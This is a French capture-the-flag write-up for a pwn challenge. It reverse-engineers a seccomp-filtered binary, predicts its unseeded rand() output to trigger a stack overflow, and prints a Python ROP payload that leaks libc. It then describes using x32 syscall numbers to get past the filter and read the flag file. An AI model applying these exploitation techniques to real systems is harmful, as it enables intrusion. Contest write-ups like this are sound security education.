

## PWN / Coffre Fort

<p align="center">
  
</p>


### Look around

Le challenge fournit une interface de connexion, ainsi que deux binaires :
- le programme avec lequel nous interagissons via l'interface
- la `libc` utilisée sur le serveur

Si on se connecte, nous pouvons entrer un login et un mot de passe ... et c'est tout.

```bash
$ nc challenge.404ctf.fr 30863
Bienvenue sur l'interface de connexion au Coffre-fort !

- Veuillez saisir votre identifiant.
toto
- Veuillez désormais saisir votre mot de passe.
pass
```

On peut faire quelques essais classiques (taille, format string, ...) mais cela ne change rien au comportement.

### Analyse statique

```bash
$ checksec coffre-fort
[*] '/home/debian/challenge/404/coffre-fort'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Pour ce qui est des sécurités, bonne nouvelle, pas de canary. En revanche la stack est non exécutable, et l'ASLR activée sur le serveur.

```bash
seccomp-tools dump ./coffre-fort
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0007
 0002: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0007
 0003: 0x15 0x03 0x00 0x0000003c  if (A == exit) goto 0007
 0004: 0x15 0x02 0x00 0x000000e7  if (A == exit_group) goto 0007
 0005: 0x25 0x01 0x00 0x0000014c  if (A > 0x14c) goto 0007
 0006: 0x06 0x00 0x00 0x00000000  return KILL
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

Par ailleurs des filtres sont en place sur les `SYSCALL` autorisés pour le binaire.

Ici nous pourrons : lire, écrire, quitter ou utiliser des `SYSCALL` supérieurs à 0x14c (332)

Plus d'info sur les seccomp filters : https://man7.org/linux/man-pages/man2/seccomp.2.html

https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

Toutefois, il n'y a pas de check sur l'architecture.

### Analyse du code

On trouve trois fonctions principales dans le code.

#### main()

```c
undefined8 FUN_main(void)

{
  char msg_2 [50];
  char user_pass [32];
  char user_name [128];
  char msg_1 [94];

  FUN_seccomp();
  msg_1._0_8_ = 0x756e65766e656942;
  msg_1._8_8_ = 0x276c207275732065;
  msg_1._16_8_ = 0x6361667265746e69;
  msg_1._24_8_ = 0x6e6f632065642065;
  msg_1._32_8_ = 0x61206e6f6978656e;
  msg_1._40_8_ = 0x657266666f432075;
  msg_1._48_8_ = 0xa212074726f662d;
  msg_1._56_8_ = 0x6c69756556202d0a;
  msg_1._64_8_ = 0x73696173207a656c;
  msg_1._72_8_ = 0x6572746f76207269;
  msg_1._80_8_ = 0x6669746e65646920;
  msg_1._88_4_ = 0x746e6169;
  msg_1._92_2_ = 0xa2e;
  user_name._0_8_ = 0;
  ...
  user_name._120_8_ = 0;
  write(1,msg_1,0x5e);
  read(0,user_name,0x80);
  user_pass._0_8_ = 0;
  ...
  user_pass._24_8_ = 0;
  msg_2._0_8_ = 0x6c6c69756556202d;
  msg_2._8_8_ = 0x6f73a9c364207a65;
  msg_2._16_8_ = 0x6173207369616d72;
  msg_2._24_8_ = 0x746f762072697369;
  msg_2._32_8_ = 0x6420746f6d206572;
  msg_2._40_8_ = 0x2e65737361702065;
  msg_2._48_2_ = 10;
  write(1,msg_2,0x31);
  read(0,user_pass,0x20);
  FUN_check_pass((byte *)user_pass);
  return 0;
}
```

En nettoyant un peu, on voit vite que le `main()` ne fait pas grand chose, la fonction permet l'interaction avec l'utilisateur. Malheureusement, les saisies sont lues avec `read()` et des paramètres de taille corrects, correspondants aux variables déclarées pour recevoir ces valeurs. Donc pour le moment, pas de buffer overflow possible par ici.

#### seccomp()

La première fonction appelée par `main()` permet de définir les restrictions sur les `SYSCALL`.

Pour le moment, rien de plus que les restrictions identifiées précédemment. De plus, le programme ne crée pas de fils (`fork()`), donc il ne sera pas possible de bypasser ces protections via un fils : https://ctftime.org/writeup/23144

```c
void FUN_seccomp(void)

{
  int iVar1;
  undefined2 local_18 [4];
  undefined *local_10;

  local_18[0] = 8;
  local_10 = &DAT_00404020;
  iVar1 = prctl(0x26,1,0,0,0);
  if (iVar1 < 0) {
    perror("prctl(PR_SET_NO_NEW_PRIVS)");
                    /* WARNING: Subroutine does not return */
    exit(2);
  }
  iVar1 = prctl(0x16,2,local_18);
  if (iVar1 < 0) {
    perror("prctl(PR_SET_SECCOMP)");
                    /* WARNING: Subroutine does not return */
    exit(2);
  }
  return;
}
```

#### check_pass()

Enfin, voici la fonction appelée à la fin de `main()` qui va manipuler le `password` saisi par l'utilisateur.


```c
undefined  [16] FUN_check_pass(byte *user_pass)

{
  int rand_int;
  long uVar1;
  byte uVar2;
  byte rand_tab_1 [128];
  byte rand_tab_2 [128];
  byte buff [32];
  int j;
  int i;
  long uVar3;

  buff._0_8_ = 0;
  buff._8_8_ = 0;
  buff._16_8_ = 0;
  buff._24_8_ = 0;
  for (i = 0; (uint)i < 0x80; i = i + 1) {
    rand_int = rand();
    rand_tab_1[i] = (byte)rand_int;
    rand_int = rand();
    rand_tab_2[i] = (byte)rand_int | 1;
  }
  j = 0;
  do {
    if (user_pass[j] == 0) {
      uVar3 = 0;
      uVar1 = 1;
LAB_0040135c:
      return CONCAT88(uVar3,uVar1);
    }
    buff[j] = user_pass[j] ^ rand_tab_2[j];
    if ((j < 0x20) && (uVar3 = (long)buff[j], buff[j] != rand_tab_1[j])) {
      uVar1 = 0;
      goto LAB_0040135c;
    }
    j = j + 1;
  } while( true );
}

```

Cette fonction initialise deux tableaux d'octets (`tab_1` et `tab_2`) avec des entiers générés aléatoirement.

Ensuite, elle va remplir un buffer de 32 octets avec `user_pass xor tab_2`, si :
- le caractère du password est non nul
- les 32 octets en question sont égaux aux 32 premiers octets de tab_1

Jusque là rien de fou, sauf que ....

Si notre mot de passe ne contient pas de caractère nul, et qu'il est choisit de façon à ce que `tab_1 = tab_2 ^ user_pass` (pour les 32 premiers octets), alors la boucle `while` n'a plus de condition d'arrêt et va continuer à écrire au delà de buff[32].

Voilà le buffer overflow !

### Exploit

#### Defeat the random

Pour commencer il nous faut un mot de passe de 32 octets qui remplit la condition précédente. En remarquant que `rand()` n'est pas initialisé avec une graine variable, on va pouvoir générer les mêmes valeurs avec un petit peu de C.

```c
#include <stdlib.h>
#include <stdio.h>

int main(){

    unsigned char tab_1[128] = {0} ;
    unsigned char tab_2[128] = {0} ;
    int a = 0 ;
    int b = 0 ;


    for (int i = 0 ; i < 128 ; i++){

        a = rand() ;
        tab_1[i] = (unsigned char)a;

        b = rand() ;
        tab_2[i] = (unsigned char)b | 1;

    }
    ...
    return 0 ;
}
```

Ce qui nous donne les sorties suivantes :

```bash
tab_1 :
6769514a29baf2e3 7c541be7762e33c9
660d31a32505585e abcd9b540e7421dc
703e41fc3e7eea6b 8f5cec3b323cecdb
02fefbaafbd1057c 75be895ca80fb1f1
05f7e93acacb4864 1f1e1c64145a5e79
3b641109aaac1baf 33e34815bb22ba7d
0b1a7ff8f81bb54e 9838793dbc4efa6c
ac21aa55beb53b5c 36b3e2e44f15fd4e

tab_2 :
c773ffedcdabfb47 c3f9e98d5b639f9b
33b7595b5d17e9d5 b3c7b51183413d87
e9a1e1670197dd97 392bb1fbaf55195d
1b43fb3b29e73d95 d961f9bb9995ebb3
ef01a1e50bd147bd 23a97bc573c54b63
71259fddd5f3113b cd51475d6f199bf5
e11d2329a513cbe9 33e14d355f77cb05
872b1ba3717305d3 95aff19f334983a9

tab_1, tab_2, tab_1 xor tab_2
6769514a29baf2e37c541be7762e33c9660d31a32505585eabcd9b540e7421dc703e41fc3e7eea6b8f5cec3b323cecdb02fefbaafbd1057c75be895ca80fb1f105f7e93acacb48641f1e1c64145a5e793b641109aaac1baf33e34815bb22ba7d0b1a7ff8f81bb54e9838793dbc4efa6cac21aa55beb53b5c36b3e2e44f15fd4e
c773ffedcdabfb47c3f9e98d5b639f9b33b7595b5d17e9d5b3c7b51183413d87e9a1e1670197dd97392bb1fbaf55195d1b43fb3b29e73d95d961f9bb9995ebb3ef01a1e50bd147bd23a97bc573c54b6371259fddd5f3113bcd51475d6f199bf5e11d2329a513cbe933e14d355f77cb05872b1ba3717305d395aff19f334983a9
a01aaea7e41109a4bfadf26a2d4dac5255ba68f87812b18b180a2e458d351c5b999fa09b3fe937fcb6775dc09d69f58619bd0091d23638e9acdf70e7319a5a42eaf648dfc11a0fd93cb767a1679f151a4a418ed47f5f0a94feb20f48d43b2188ea075cd15d087ea7abd93408e33931692b0ab1f6cfc63e8fa31c137b7c5c7ee7
```

On peut vérifier en regardant la stack dans la fonction `check_pass` après génération des `rand()`, on retrouve bien les mêmes valeurs, qui sont donc prédictibles (tant que l'on appelle `rand()` le même nombre de fois et dans "le même ordre").

```bash
gdb-peda$ x/50gx $rsp
0x7fffffffdd50:	0x00007ffff7fb1540	0x00007fffffffdee0
0x7fffffffdd60:	0xe3f2ba294a516967	0xc9332e76e71b547c  <= tab_1 (en LE)
0x7fffffffdd70:	0x5e580525a3310d66	0xdc21740e549bcdab
0x7fffffffdd80:	0x6bea7e3efc413e70	0xdbec3c323bec5c8f
0x7fffffffdd90:	0x7c05d1fbaafbfe02	0xf1b10fa85c89be75
0x7fffffffdda0:	0x6448cbca3ae9f705	0x795e5a14641c1e1f
0x7fffffffddb0:	0xaf1bacaa0911643b	0x7dba22bb1548e333
0x7fffffffddc0:	0x4eb51bf8f87f1a0b	0x6cfa4ebc3d793898
0x7fffffffddd0:	0x5c3bb5be55aa21ac	0x4efd154fe4e2b336
0x7fffffffdde0:	0x47fbabcdedff73c7	0x9b9f635b8de9f9c3  <= tab_2 (en LE)
0x7fffffffddf0:	0xd5e9175d5b59b733	0x873d418311b5c7b3
0x7fffffffde00:	0x97dd970167e1a1e9	0x5d1955affbb12b39
0x7fffffffde10:	0x953de7293bfb431b	0xb3eb9599bbf961d9
0x7fffffffde20:	0xbd47d10be5a101ef	0x634bc573c57ba923
0x7fffffffde30:	0x3b11f3d5dd9f2571	0xf59b196f5d4751cd
0x7fffffffde40:	0xe9cb13a529231de1	0x05cb775f354de133
0x7fffffffde50:	0xd3057371a31b2b87	0xa98349339ff1af95
0x7fffffffde60:	0x0000000000000000	0x0000000000000000  <= buff
0x7fffffffde70:	0x0000000000000000	0x0000000000000000
0x7fffffffde80:	0x0000000000000008	0x0000008000000000
0x7fffffffde90:	0x00007fffffffdfe0	0x00000000004015d1  <= saved RBP / saved RIP
0x7fffffffdea0:	0x6c6c69756556202d	0x6f73a9c364207a65
0x7fffffffdeb0:	0x6173207369616d72	0x746f762072697369
0x7fffffffdec0:	0x6420746f6d206572	0x2e65737361702065
0x7fffffffded0:	0x000003400000000a	0x0000034000000340
```


#### Analyse de la stack

Toujours depuis la fonction `check_pass()` :

```bash

0x7fffffffdd50: 0x00007ffff7fb1540  0x00007fffffffdee0  <= stackframe de check_pass()

0x7fffffffdd60: 0xe3f2ba294a516967  0xc9332e76e71b547c  <= tab_1
0x7fffffffdd70: 0x5e580525a3310d66  0xdc21740e549bcdab
0x7fffffffdd80: 0x6bea7e3efc413e70  0xdbec3c323bec5c8f
0x7fffffffdd90: 0x7c05d1fbaafbfe02  0xf1b10fa85c89be75
0x7fffffffdda0: 0x6448cbca3ae9f705  0x795e5a14641c1e1f
0x7fffffffddb0: 0xaf1bacaa0911643b  0x7dba22bb1548e333
0x7fffffffddc0: 0x4eb51bf8f87f1a0b  0x6cfa4ebc3d793898
0x7fffffffddd0: 0x5c3bb5be55aa21ac  0x4efd154fe4e2b336

0x7fffffffdde0: 0x47fbabcdedff73c7  0x9b9f635b8de9f9c3  <= tab_2
0x7fffffffddf0: 0xd5e9175d5b59b733  0x873d418311b5c7b3
0x7fffffffde00: 0x97dd970167e1a1e9  0x5d1955affbb12b39
0x7fffffffde10: 0x953de7293bfb431b  0xb3eb9599bbf961d9
0x7fffffffde20: 0xbd47d10be5a101ef  0x634bc573c57ba923
0x7fffffffde30: 0x3b11f3d5dd9f2571  0xf59b196f5d4751cd
0x7fffffffde40: 0xe9cb13a529231de1  0x05cb775f354de133
0x7fffffffde50: 0xd3057371a31b2b87  0xa98349339ff1af95

0x7fffffffde60: 0x0000000000000000  0x0000000000000000  <= buff
0x7fffffffde70: 0x0000000000000000  0x0000000000000000

0x7fffffffde80: 0x0000000000000008  0x0000008000000000  <= j (compteur dans la boucle while, il aura son importance)
0x7fffffffde90: 0x00007fffffffdfe0  0x00000000004015d1  <= saved RBP / saved RIP (pour retrouner dans le main)

0x7fffffffdea0: 0x6c6c69756556202d  0x6f73a9c364207a65  <= stackframe de main()
0x7fffffffdeb0: 0x6173207369616d72  0x746f762072697369
0x7fffffffdec0: 0x6420746f6d206572  0x2e65737361702065
0x7fffffffded0: 0x000003400000000a  0x0000034000000340

0x7fffffffdee0: 0x4242424242424242  0x4242424242424242  <= user_pass
0x7fffffffdef0: 0x4242424242424242  0x4242424242424242

0x7fffffffdf00: 0x4141414141414141  0x4141414141414141  <= user_name
0x7fffffffdf10: 0x4141414141414141  0x4141414141414141
0x7fffffffdf20: 0x4141414141414141  0x4141414141414141
0x7fffffffdf30: 0x4141414141414141  0x4141414141414141
0x7fffffffdf40: 0x4141414141414141  0x4141414141414141
0x7fffffffdf50: 0x4141414141414141  0x4141414141414141
0x7fffffffdf60: 0x4141414141414141  0x4141414141414141
0x7fffffffdf70: 0x4141414141414141  0x4141414141414141

0x7fffffffdf80: 0x756e65766e656942  0x276c207275732065
0x7fffffffdf90: 0x6361667265746e69  0x6e6f632065642065
0x7fffffffdfa0: 0x61206e6f6978656e  0x657266666f432075
0x7fffffffdfb0: 0x0a212074726f662d  0x6c69756556202d0a
0x7fffffffdfc0: 0x73696173207a656c  0x6572746f76207269
0x7fffffffdfd0: 0x6669746e65646920  0x00000a2e746e6169
0x7fffffffdfe0: 0x00000000004015e0  0x00007ffff7e11d0a
0x7fffffffdff0: 0x00007fffffffe0d8  0x00000001ffffe3e9
0x7fffffffe000: 0x000000000040135e  0x00007ffff7e118e9
```

On comprend maintenant que si notre mot de passe valide les conditions notées plus haut, la boucle va continuer et on va pouvoir écrire dans la stackframe de `check_pass()` jusqu'à la sauvegarde de RIP pour reprendre le contrôle du flot d'exécution, et les valeurs lues au-delà du 32e octet de `user_pass`, seront lues dans `user_name` qui est directement à la suite dans la stackframe de `main()`.


Quelques contraintes jusque là :
- `user_pass[0:32] = tab_1[0:32] xor tab_2[0:32]`
- `user_name[0:..] = whatever[0:..] xor tab_2[32:..]`

En effet, on passe les tests d'arrêt de la boucle, mais ce que l'on va overflow sur la stack c'est `buff[j] = user_pass[j] ^ rand_tab_2[j];` donc si on veut pouvoir insérer un payload, celui-ci devra être préalablement xoré avec tab_2 (pour que les xor s'annulent).

Par ailleurs nous allons rapidement rencontrer une limite sur la taille du payload. En effet, on a besoin de maîtriser les valeurs avec lesquelles il va être xoré (c'est à dire tab_2). Les 4 premiers QWORD de `tab_2` vont xorer le `user_pass` pour remplir `buff`, le QWORD suivant va permettre de déborder de 8 octets sur la stack, en revanche l'octet d'après va écraser `j` notre compteur de boucle ...

Pour celui-ci, on va donc précalculer l'offset du `saved RIP` pour que les octets d'après écrasent l'écrase directement, mais ce faisant nous faisons un saut dans notre `tab_2` (donc moins de valeurs prédictibles pour préparer notre paload xoré, même si on peut en grignoter un peu) et surtout le même saut dans `user_name` dont la taille est limitée à `0x80`.

Avec quelques tests, ou un peu de maths, on voit qu'on va devoir se limiter à des payload de 9 QWORD.

#### Leak the libc

Rappelons nous que la stack est non exécutable, que l'on a pas accès aux syscalls pour mapper une zone mémoire en RWX, et que de toute façon avec 9 x 8 = 72 octets ça serait compliqué.

On va donc envisager une ROPchain, mais nous sommes un peu limités en gadgets dans le binaire (et puis si le concépteur du chall nous file la libc, ce n'est pas pour rien ! )

Pour cela, on va faire un appel à `write`, en lui demandant d'afficher l'adresse de write dans la got, et on termine notre payload par un rappel de `main()` pour pouvoir renvoyer un second payload.

```python
sc1 = p64(pop_rdi)
sc1 += p64(0x01)
sc1 += p64(pop_rsi_r15)
sc1 += p64(write_got)
sc1 += p64(0xff)
sc1 += p64(edx)
sc1 += p64(ret) #align stack
sc1 += p64(write_plt)
sc1 += p64(main)

sc1_xor = b''
for i in range(len(sc1)):
  sc1_xor += struct.pack("B",(tab_2[0x38+i]^sc1[i]))

name = b'A' * 8
name += struct.pack("B",(tab_2[40]^0x37)) # ecraser le compteur de boucle pour pointer sur le saved RIP
name += b'A' * (0x38 - 0x20 - len(name))
name += sc1_xor
name += b'\x00'

name = name + b'A' * (0x80 - len(name))

rep = r.recvuntil(b'identifiant.\n')
print(rep)

r.send(name)
rep = r.recvuntil(b'passe.\n')
r.send(password1)
print(rep)
log.success("First payload sent")

rep = r.recv()

write_leak = u64(rep[:8])
log.success("Leak write leak : " + hex(write_leak))
```

#### What next ?

Je vais passer sur les différents et très nombreux échecs pour trouver la suite (ce qui explique que le code joint soit un peu décousu même si j'ai essayé de le remettre au propre et de commenter a minima).


Tout d'abord, le rappel de `main()` s'effectue correctement mais, le second paylaod faisait planter le programme, du coup au lieu d'écraser `saved_RIP`, je vais faire pointer `j` un peu plus haut pour écraser `saved_RBP` et avoir une sorte de pivot sur la stack.

Par ailleurs pour chaque payload successif envoyé il faut bien penser à recalculer les valeurs `rand()` de `tab_1` et `tab_2`, car le programme ne s'est pas arrêté, et le générateur de pseudo aléa continue à la suite : [genere_rand.c](genere_rand.c)

Maintenant, ce que l'on va faire :

- écrire le nom d'un fichier quelque part (à une adresse connue)
- appeler `open`
- appeler `read`
- appeler `write`


Oui mais ... on a pas droit à `open()` ????

Là, il faut faire un peu de recherche (je n'ai plus tous mes liens sous la main, je les ajouterai ultérieurement)
- certains `SYSCALL` sont communs aux archis 32 et 64 bits : https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall_64.tbl
- sans précisions particulières, le programme va être compilé pour faire du fastcall, et optimiser les appels, ce qui inclus un mode de compatibilité avec les syscall 32 bits
- pour appeler un syscall 32 bits il faut appeler `0x40000000 | syscall_number`

Ainsi pour `open()`, le numéro du syscall n'est plus `2` mais `0x40000002`.
Je n'ai plus le détails, mais cela set un flag (CF) du compilateur, qui passe en 32 bits, avec une restrictions du coup sur les arguments de la fonctions appelée (adresses sur 32bits).

En première approche, on pourrait essayer de faire tout cela avec 4 payload successifs (comme celui pour leaker la libc). Mais je n'ai pas réussi ayant trop peu d'instructions à chaque fois (par exemple on a besoin de mémoriser le retour de `open` pour le passer à `read`, même si on peut s'en passer en supposant que ça va être le file descriptor n°3 ).

Finalement je vais préparer une ROPchain qui fait le open / read / write, sans limite de taille, puis :

- envoyer un payload pour faire un appel à `read`
- envoyer ma ROPChain
- pivoter la stack sur ma ROPchain

Le code complet : [coffre.py](coffre.py)

### Find the flag

Après quelques essais, impossible d'ouvrir trivialement `flag.txt` et pour cause il n'y a pas de fichier `flag.txt`.

Pour s'en rendre compte, en modifiant un peu la ROPChain, on peut lire la valeur de retour de `open` à `offset_fd` : https://www2.hs-fulda.de/~klingebiel/c-stdlib/sys.errno.h.htm

Pour valider que l'exploit fonctionne, on peut essayer de lire le binaire du programme lui-même. En pensant que celui sur le serveur était différent de celui fournit (et contiendrait donc le flag) j'ai écrit un exploit pour leaker tout le binaire : [coffre_dump_bin.py](coffre_dump_bin.py)


A force de tâtonner, en lisant `proc/self/mount` on découvre le nom du fichier flag : `contenu_ultra_secret_du_coffre_fort.txt`

Après échanges avec le concépteur du challenge, ce bypass est possible à cause de l'implémentation en docker du chall et du "montage" du fichier, qui laisse une trace dans /proc/self/mount.

La méthode attendue (et plus logique mais je n'y ai pas pensé, voir plus bas), consiste à passer par un appel syscall à `getdents` pour lire obtenir une structure contenant des informations sur le répertoire choisi (dont le nom des fichiers).
